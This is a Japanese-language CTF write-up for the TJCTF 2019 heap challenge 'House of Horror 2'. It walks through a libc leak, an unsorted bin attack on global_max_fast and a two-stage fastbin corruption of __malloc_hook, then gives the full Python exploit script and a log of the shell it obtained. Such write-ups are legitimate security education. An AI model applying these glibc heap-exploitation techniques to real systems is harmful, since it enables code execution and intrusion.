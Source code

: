 # [pwn 180pts] House of Horror 2 - TJCTF 2019
PIE以外有効です。
```
$ checksec -f house_of_horror_2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		1	house_of_horror_2
```

一見House of Horroと同じように見えますが、指定できるサイズは15〜127になりました。（つまりmallocされるサイズは0x79〜0x400まで。）
libc leakは前回と同じようにできます。

さて、サイズが大きくなったのでfastbinが使えません。
いろいろ調べると0CTFのzerostorageという問題が似ていて、unsorted bin attackで`global_max_fast`を大きな値にすることで大きいサイズでもfastbinに入るようにしてやります。

`global_max_fast`を変更したら、次に`__malloc_hook`を変更します。
`__malloc_hook - 0x175`にサイズとして使えそうなデータがありました。
```
(gdb) x/32xg 0x00007fe6d69f1b10 - 0x175
0x7fe6d69f199b <_IO_2_1_stdin_+187>:	0xffffff0000000000	0x00000000000000ff
0x7fe6d69f19ab <_IO_2_1_stdin_+203>:	0x0000000000000000	0x9f06e00000000000
0x7fe6d69f19bb <_IO_2_1_stdin_+219>:	0x00000000007fe6d6	0x0000000000000000
0x7fe6d69f19cb <_IO_wide_data_0+11>:	0x0000000000000000	0x0000000000000000
0x7fe6d69f19db <_IO_wide_data_0+27>:	0x0000000000000000	0x0000000000000000
0x7fe6d69f19eb <_IO_wide_data_0+43>:	0x0000000000000000	0x0000000000000000
...
```
ただし、ここからサイズ0xe8以内には`__malloc_hook`は無いので、2段階で書き込んでやる必要があります。
まずはこの場所から0xe0ほど先にサイズとして使える0xf1を用意します。

```python
from ptrlib import *
import ctypes

def create_array(size):
    sock.sendlineafter("> ", "1")
    sock.sendlineafter("> ", str(size))

def delete_array(index):
    sock.sendlineafter("> ", "4")
    sock.sendlineafter("> ", str(index))

def view_element(index, offset):
    sock.sendlineafter("> ", "2")
    sock.sendlineafter("> ", str(index))
    sock.sendlineafter("> ", str(offset))
    return sock.recvline().rstrip()

def edit_element(index, offset, value):
    sock.sendlineafter("> ", "3")
    sock.sendlineafter("> ", str(index))
    sock.sendlineafter("> ", str(offset))
    sock.sendlineafter("> ", str(value))

libc = ELF("./libc.so.6")
#sock = Socket("p1.tjctf.org", 8001)
sock = Socket("127.0.0.1", 9999)
main_arena = 0x3c4b20
global_max_fast = 3958776
delta = 0x58
one_gadget = 0xf1147

# libc leak
create_array(0x80 // 8) # 0
create_array(0x80 // 8) # 1
delete_array(0)
libc_base = int(view_element(0, 0), 10) - main_arena - delta
logger.info("libc base = " + hex(libc_base))
logger.info("global_max_fast = " + hex(libc_base + global_max_fast))

# allocate for future use
create_array(0xe0 // 8) # 2
create_array(0xe0 // 8) # 3
create_array(0xe0 // 8) # 4

# unsorted bin attack on global_max_fast
create_array(0x90 // 8) # 5
create_array(0xa0 // 8) # 6
delete_array(5)
edit_element(0, (0xf0 * 3 + 0x90 + 0x90) // 8, libc_base + global_max_fast - 0x10)
create_array(0x90 // 8) # 7

# fastbin corruption attack (Stage 1)
delete_array(2)
delete_array(3)
delete_array(4)
# fastbin-->4-->3-->2
edit_element(3, 0xe8 // 8, libc_base + libc.symbol("__malloc_hook") - 0x175)
# fastbin-->7-->__malloc_hook-0x175
create_array(0xe0 // 8) # 8
create_array(0xe0 // 8) # 9
edit_element(9, 0xd8 // 8, 0xf1 << 40)

# fastbin corruption attack (Stage 2)
delete_array(4)
# fastbin-->4-->?
edit_element(3, 0xe8 // 8, libc_base + libc.symbol("__malloc_hook") - 0x88)
# fastbin-->4-->__malloc_hook-0x88
create_array(0xe0 // 8) # 10
create_array(0xe0 // 8) # 11
edit_element(11, 0x70 // 8, libc_base + one_gadget)

# get the shell!
create_array(0x100 // 8)

sock.interactive()
```

できたー！
```
$ python solve.py 
[+] __init__: Successfully connected to p1.tjctf.org:8012
[+] <module>: libc base = 0x7fbe7bc35000
[+] <module>: global_max_fast = 0x7fbe7bffb7f8
[ptrlib]$ ls
[ptrlib]$ flag.txt
house_of_horror_2
libc.so.6
wrapper
  
[ptrlib]$ cat flag.txt
[ptrlib]$ 
tjctf{1_w0nder_if_any0ne_w1ll_use_h0use_of_or4nge}[ptrlib]$
```

フラグにはhouse of orangeと書いてあるので非想定解だった...？

# 感想
初めて使う攻撃で凄い勉強になりました。
unsorted binからglobal_max_fastをいじるのは今後使えそう。
2段階でfastbin corruption attackするという構想も上手くいったので楽しかったです。
